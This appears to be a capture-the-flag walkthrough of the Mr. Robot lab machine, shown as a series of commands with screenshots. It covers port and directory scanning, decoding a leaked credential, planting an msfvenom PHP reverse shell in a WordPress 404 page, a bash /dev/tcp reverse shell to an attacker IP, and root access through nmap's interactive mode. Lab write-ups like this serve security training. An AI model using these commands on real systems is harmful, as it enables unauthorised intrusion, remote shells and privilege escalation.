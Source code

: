 <h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/cb1c3fb3-2973-4fcd-b957-9ffec2337fb1"></picture>
<h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/5223b9fb-f5d2-4f5f-b961-af45d26dec7e"></picture></h1>

```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
nmap -sCV -p22,80 172.17.0.2 -oN targeted
```
![image](https://github.com/user-attachments/assets/6509eeef-95c5-43e2-8b41-9294a4206893)

## **PORT 80**
![image](https://github.com/user-attachments/assets/4d0ea598-172c-4067-b1d5-8965d718abcb)

## **PORT 443**
![image](https://github.com/user-attachments/assets/69575dea-cc05-4273-bb14-422b2f5b3a88)

## **Identifying the technologies, servers, and applications that make up the web**
```bash
whatweb http://10.10.223.160
```
![image](https://github.com/user-attachments/assets/f44e3359-cc74-4743-b2c9-c5f3c9e20e4b)
We did not find anything that could help us

## **Fuzzing Web**
```bash
gobuster dir -u http://10.10.223.160/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![image](https://github.com/user-attachments/assets/94c3631c-3f7b-4928-8f52-f9dfbcdd46a9)

![image](https://github.com/user-attachments/assets/3ef2f037-22b6-4065-8eea-bfa7f011dcd9)

![image](https://github.com/user-attachments/assets/95c7db88-bd00-45b9-8c20-009bb548f3b4)

![image](https://github.com/user-attachments/assets/572806d5-12db-440e-88a4-16a6e1785266)

![image](https://github.com/user-attachments/assets/090c0dae-5803-4d51-a495-3a4d453d7dd8)
![image](https://github.com/user-attachments/assets/959d45f4-1b81-484e-975c-ae19f5b99582)<br>
![image](https://github.com/user-attachments/assets/c17c5f8b-fb24-4b15-9f33-20ce7e32b5fb)

## **We found several hidden pages, but in one we found a hash64**
```bash
echo 'ZWxsaW90OkVSMjgtMDY1Mgo=' | base64 -d
```
![image](https://github.com/user-attachments/assets/e5b4b107-1390-43e1-b5d5-653e80accca0)<br>
elliot:ER28-0652<br>
![image](https://github.com/user-attachments/assets/6af5ebc6-25f7-439c-9cd1-0b48cd970cfe)

## **We are going to modify a part of the web in this case the error 404 that when entering a site that does not exist, a code that we will create will be executed and it will return a shell that we will intercept later.**
![image](https://github.com/user-attachments/assets/4bf0c610-9e79-4be4-8b80-c4b3e426c666)

## **Creating the malicious code**
```bash
msfvenom -p php/reverse_php LHOST=10.21.118.81 LPORT=443 -f raw > pwned.php
```
![image](https://github.com/user-attachments/assets/ac8a757b-69b4-47b9-828e-487ea520472a)

## **the code created inside the pwned.php file will be copied into the error 404 page**
![image](https://github.com/user-attachments/assets/045a6510-9a06-4f5a-95e3-0fdb756f7b8b)

## **we go into listening mode**
```bash
nc -nlvp 443
```
![image](https://github.com/user-attachments/assets/d9fac086-7c71-4b2f-9a82-da79777f6e87)<br>

## **we open a website that does not exist**
![image](https://github.com/user-attachments/assets/0160a91f-8439-4866-aff0-03daae79b264)

## **intercept and send the connection to another port in order to establish the connection.**
![image](https://github.com/user-attachments/assets/b4c10518-86b2-4d94-8bce-f5186cfe7066)

```bash
bash -c "sh -i >& /dev/tcp/10.21.118.81/444 0>&1"
```
![image](https://github.com/user-attachments/assets/8f90a8bd-4599-4582-99a8-6968ea941ccf)

## **we intercept the new connection on our port 444**
```bash
nc -nlvp 444
```
![image](https://github.com/user-attachments/assets/0a5e6e27-269b-44ea-a313-8ea4fa2bb47b)

## **once inside we do an investigation to find sensitive content and do a TTY treatment.**
```bash
python -c "import pty;pty.spawn('/bin/bash')"
```
![image](https://github.com/user-attachments/assets/1f703ba1-e294-4744-b456-e12e5701bbbc)

![image](https://github.com/user-attachments/assets/e55247dd-9190-4e58-afa8-6b7ce096c5cd)
robot:c3fcd3d76192e4007dfb496cca67e13b


![image](https://github.com/user-attachments/assets/b28ef771-3125-4e09-ae60-1889ff2224c3)
abcdefghijklmnopqrstuvwxyz

```bash
su robot
```
![image](https://github.com/user-attachments/assets/a500ac2d-0610-47b0-94e3-db17136edf65)

```bash
find / -perm -4000 2>/dev/null
```
![image](https://github.com/user-attachments/assets/096f03b1-c457-433a-be53-5191ba3a2ec7)

![image](https://github.com/user-attachments/assets/4f1dc63c-4f4c-47f3-898e-399dd036bb9a)

```bash
nmap --interactive
```
![image](https://github.com/user-attachments/assets/4ac2840d-ec78-4792-b939-1d5953ec795d)

```bash
!sh
```
![image](https://github.com/user-attachments/assets/50fcc1fd-b59d-496a-8ab0-a2dab7a681b1)








